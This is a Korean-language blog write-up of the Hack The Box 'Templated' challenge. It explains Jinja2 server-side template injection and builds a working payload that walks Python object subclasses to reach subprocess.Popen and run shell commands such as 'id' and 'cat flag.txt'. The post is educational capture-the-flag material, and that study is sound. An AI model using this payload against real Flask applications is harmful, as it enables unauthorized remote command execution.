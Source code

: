 ```yaml
---
title: Hack The Box - Templated
date: 2023-02-14
author: glasses96
categories: [Wargame, Hack The Box]
tags: [Hack The Box, Templated, SSTI, Write-up]
pin: true
math: true
mermaid: true
---
```


> **Hack The Box Templated 문제를 풀어봅시다.**
{: .prompt-info }

---

## Description
>Can you exploit this simple mistake?

----
## Solve
문제 웹 사이트에 접근하면 다음과 같다.
`Flask`로 만들어진 웹 페이지를 확인할 수 있다.

![jinja2](/assets/post/19/1.png)


URL에 test 입력시 test라는 문구가 출력된다.

![test](/assets/post/19/2.png)

`SSTI` 공격이 가능할 것으로  추측되어 {% raw %}`${{7*7}}`{% endraw %}를 입력 해보니 49가 출력이 된다.

![49](/assets/post/19/3.png)

쉘을 실행시키기 위해 `subprocess.Popen` 찾았다.
인덱스는 `414`이다.

![subprocess.Popen](/assets/post/19/4.png)

이다음 `cat flag.txt`를 하여 플래그를 획득할 수있다.

![Flag](/assets/post/19/5.png)

## How is RCE possible?
python에서 모든 객체는 {% raw %}`{{ __class__ }}`{% endraw %} 속성을 가집니다.
```py
{% raw %}{{ ''.__class__ }}{% endraw %}
#<class 'str'>

```

{% raw %}`__mro__`{% endraw %}를 통해 자신과 자신이 상속받은 클래스, 상속받은 클래스의 상위 클래스까지 순서대로 튜플 타입으로 반환합니다.
{% raw %}`__base__`{% endraw %}를 통해 object 클래스에 접근할수도 있습니다.

```py
{% raw %}{{ ''.__class__.__mro__ }}{% endraw %}
#(<class 'str'>, <class 'object'>) #우리는 object 타입을 이용할 것이므로 [1]인덱스를 필요로합니다.
```
{% raw %}`__subclasses__`{% endraw %}는상속을 받는 클래스가 어떻게 구성이 되어 있는지를 나타냅니다.
엄청나게 많은 클래스들이 나오며 우리가 필요한 클래스 인덱스를 찾아 사용이 가능합니다.

```py
{% raw %}{{ ''.__class__.__mro__[1].__subclasses__() }}{% endraw %}
#[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>....
```
414 인덱스에는 {% raw %}`subprocess.Popen`{% endraw %}이 됩니다.
{% raw %}`subprocess.Popen`{% endraw %}을 사용하는 이유는{% raw %}`subprocess.Popen`{% endraw %}을 이용하여 쉘 명령을 실행할 수 있습니다. 
 [subprocess](https://docs.python.org/3/library/subprocess.html)를 보면 {% raw %}`os.system`{% endraw %} 모듈과 기능을 대체한다고 되어있습니다. 

```py
{% raw %}{{ ''.__class__.__mro__[1].__subclasses__()[414] }}{% endraw %}
#<class 'subprocess.Popen'>
```
[Popen](https://docs.python.org/ko/3.9/library/subprocess.html#subprocess.Popen)을 보시면 Popen의 생성자를 알 수 있습니다.
>class subprocess.Popen(args, bufsize=-1, executable=None, stdin=None, stdout=None, stderr=None, preexec_fn=None, close_fds=True, shell=False, cwd=None, env=None, universal_newlines=None, startupinfo=None, creationflags=0, restore_signals=True, start_new_session=False, pass_fds=(), *, group=None, extra_groups=None, user=None, umask=-1, encoding=None, errors=None, text=None)¶

`args`에는 `id` 라는  명령이 들어가며, `shell=True`를 통해 쉘을 호출합니다.
subclasses.Popen는 기본적으로 `Shell=False`로 지정되기 때문에 `shell=True`를 통해 쉘을 호출해야합니다.

그리고`stdout=-1`을 통해 표준출력을 지정합니다. -1은 `subprocess.PIPE`을 의미합니다. [subprocess.PIPE = -1인 이유](https://github.com/python/cpython/blob/3.10/Lib/subprocess.py#L259)
마지막으로 `communicate()`에서 stdout에서 데이터를 읽어옵니다.

```py
{% raw %}{{ ''.__class__.__mro__[1].__subclasses__()[414]('id',shell=True,stdout=-1).communicate() }}{% endraw %}
```

![id](/assets/post/19/6.png)

## Reference
https://me2nuk.com/SSTI-Vulnerability/
https://watchout31337.tistory.com/177
https://stackoverflow.com/questions/71547832/popen-stdout-value